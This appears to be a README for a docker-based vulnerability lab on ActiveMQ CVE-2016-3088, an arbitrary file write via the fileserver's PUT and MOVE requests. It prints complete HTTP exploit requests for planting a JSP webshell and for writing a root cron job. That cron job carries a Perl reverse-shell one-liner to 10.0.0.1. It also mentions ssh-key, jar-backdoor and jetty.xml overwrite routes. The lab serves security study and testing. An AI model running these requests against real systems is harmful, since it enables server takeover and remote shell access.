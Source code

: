 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker-compose up -d
```

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.

## Vulnerability Details

This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.

Write files such as cron or ssh key

1. Write Webshell
2. Write files such as cron or ssh key
3. Write libraries and configuration files such as jar or jetty.xml

The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.

Let we talk about the above several methods.

### Write Webshell

As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.

The default ActiveMQ account and password is `admin`. First, visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Then move it to the API folder (`/opt/activemq/webapps/api/s.jsp`) in the Web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):

![](03.png)

### Write crontab, automate reverse shell

This is a relatively stable method. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab execution will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

![](01.png)

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.

In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.

Not tested yet.
